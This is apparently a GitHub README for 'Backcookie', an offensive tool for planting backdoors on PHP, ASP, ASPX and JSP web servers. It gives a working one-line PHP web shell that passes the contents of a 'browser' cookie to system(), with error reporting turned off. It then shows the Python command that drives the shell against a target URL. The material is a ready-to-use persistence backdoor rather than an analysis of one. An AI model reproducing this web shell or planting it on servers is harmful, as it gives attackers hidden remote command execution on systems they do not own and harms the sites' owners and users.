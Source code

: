 # Backcookie
It is a tool that allows you to leave a backdoor on a given file on a web server in PHP,ASP,ASPX,JSP, through the connection between the server and the cookie (which works as an access key).

## PHP
Put this script in a PHP file on the web server.

```sh
<?php error_reporting(0); system($_COOKIE["browser"]); ?>
```

## Execution

We must specify the url with the file, and then the cookie.

```sh
python3 backcookie.py -d 'http://192.168.219.130/sistema/test.php' -c browser
```

![image](https://user-images.githubusercontent.com/66162160/217388824-5aa01fb7-ae6e-4729-ae7b-e52f43f60557.png)
